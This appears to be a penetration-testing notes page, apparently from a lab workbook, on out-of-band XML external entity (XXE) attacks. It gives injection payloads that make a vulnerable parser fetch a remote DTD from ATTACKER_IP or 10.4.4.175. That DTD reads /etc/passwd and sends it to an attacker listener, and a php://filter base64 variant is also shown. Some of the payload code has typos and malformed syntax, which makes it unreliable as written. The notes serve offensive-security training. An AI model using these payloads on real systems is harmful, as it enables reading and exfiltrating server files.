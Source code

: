 # Advanced XML External entities Out of Band \(OOB\)

## Advanced XXE OOB

### Advanced XML External entities Out of Band \(OOB\)

* **Payloads \(bypass WAF and so on\):**

[https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4) [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt)

* **In case we are not able to get a response in the specific tag \(char filtering/restriction\) we can use a remote Document Type Definition**

### DTD \( D**ocument Type Definition\)**

* **DTD is a well structured XML file that definies the structure and the legal element and attributes of a XML file.**

**4 stages attacks :**

```text
• Modified XXE XML attack
• Force the Vulnerable XML parser to grab Document Type Definition on our remote attacking machine.
• DTD file contains code to read /etc/passwd
• DTD file contains code to exfil the contents of the data out (on our attacking machine)
```

* **Modified XXE attack :**

```text
<!ENTITY %dtd SYSTEM “http://ATTACKER_IP:80/payload.dtd” %dtd;

data=<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY><!ENTITY % dtd SYSTEM "http://10.4.4.175/payload.dtd"> %dtd;]<thp><error> %26send%3b</error></thp>
```

\*\*\*\*

![](../../../.gitbook/assets/f45883b481ec44f5b32ff68132a2b1ae.png)

* **Create the payload.dtd on the attacking machine :**

`root@thp3:~/Documents/thp3/exercices/xxe-oob# cat payload.dtd`

```text
<!ENTITIY % file SYSTEM "file:///etc/passwd">
<!ENTITIY % all "<!ENTITY send SYSTEM 'http://10.4.4.175:8888/collect=%file;'>">
%all;
```

![](../../../.gitbook/assets/246a4c86f30b4d468229f2481599a1ba.png)

* **Host the file and set up a listener on the attacker machine :**

![](../../../.gitbook/assets/9cdad36a79a045028f8bfeef5ff83bab.png)

* **Getting in parser error and no output :**

![](../../../.gitbook/assets/e9973a44f94248789b2e508c8445ecb5.png)

* **php wrappers** 

  * Modify the payload.dtd to encode the output

  `php://filter/read=convert.base64-encode/resource=file:///etc/passwd`

![](../../../.gitbook/assets/68464add04be423abf3c80b11889eb69.png)

![](../../../.gitbook/assets/1f076232e0844ee2bcb9e86aad7a5fd1.png)

![](../../../.gitbook/assets/cabe44e6ad2247a39dfc79231c653f2f.png)





